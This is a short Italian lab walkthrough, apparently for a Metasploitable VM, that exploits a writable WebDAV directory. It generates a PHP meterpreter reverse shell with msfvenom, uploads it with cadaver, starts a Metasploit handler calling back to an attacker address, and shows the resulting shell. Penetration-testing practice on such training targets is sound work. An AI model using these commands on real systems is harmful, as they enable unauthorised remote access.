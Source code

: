 La directory WebDAV `/dav` permette l'upload di file, sfruttabile per caricare una reverse shell PHP.

1. Genera un payload con Msfvenom:

```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=172.20.253.60 LPORT=4444 -f raw > shell.php
```

2. Carica il payload con Cadaver:

```bash
cadaver http://172.16.49.231/dav/
put shell.php
```

3. Configura un listener in Metasploit:

```bash
msfconsole
use exploit/multi/handler
set payload php/meterpreter/reverse_tcp
set LHOST 172.20.253.60
set LPORT 4444
run
```

4. Esegui la reverse shell visitando l'URL:

```
http://172.16.49.231/dav/shell.php
```

5. Il listener riceverà la connessione:

```
[*] Started reverse TCP handler on 172.20.253.60:4444
...
msfadmin@metasploitable:~$ whoami
msfadmin
```
